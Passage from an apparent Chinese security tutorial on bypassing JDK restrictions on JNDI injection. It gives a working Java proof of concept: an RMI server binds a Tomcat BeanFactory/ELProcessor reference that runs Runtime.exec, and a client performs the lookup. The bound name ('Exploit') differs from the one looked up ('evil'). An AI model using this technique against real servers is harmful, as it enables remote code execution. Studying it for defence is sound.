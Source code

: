  所以整个绕过流程就是：
为了绕过`ConfigurationException`，需要满足`ref.getFactoryClassLocation()` 为空，也就是在远程 `RMI` 服务器返回的 `Reference` 对象中不指定 `Factory` 的 `codebase`
来到`NamingManager`，需要在攻击者本地`CLASSPATH`找到这个`Reference Factory`类并且在其中一块代码能执行`payload`，找到了`BeanFactory`
`BeanFactor`使用`newInstance`创建实例，所以只能调用无参构造，这就要求目标 `class` 得有无参构造方法且有办法执行相关命令，于是找到`ELProcessor`和`GroovyShell`
总结起来就是绕过了`ConfigurationException`，进入`NamingManager`，使用`BeanFactor`创建`ELProcessor`/`GroovyShell`无参实例，然后`BeanFactor`根据别名去调用方法（执行`ELProcessor`中的`eval`方法）

然后我们来写一个server端

```java
package JNDI.高版本;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class server {
    public static void main(String[] args) throws Exception{
        //在本机1099端口开启rmi registry
        Registry registry = LocateRegistry.createRegistry(1099);
        //构造一个ResourceRef对象
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor",null,
                "","",true,"org.apache.naming.factory.BeanFactory",null);
		//对invoke时执行的方法赋值
        ref.add(new StringRefAddr("forceString","feng=eval"));
        //需要执行的命令
        ref.add(new StringRefAddr("feng","Runtime.getRuntime().exec(\"calc\")"));
        //绑定构造的ResourceRef对象
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("Exploit",referenceWrapper);

    }
}
```

client端

```java
package JNDI.高版本;

import javax.naming.InitialContext;
public class client {
    public static void main(String[] args)throws  Exception {
        InitialContext initialContext = new InitialContext();
        initialContext.lookup("rmi://127.0.0.1:1099/evil");
    }
}
```

可以看到成功弹出计算器

![image-20221219175051717](https://raw.githubusercontent.com/Em4non/image-hosting/master/image-20221219175051717.png)
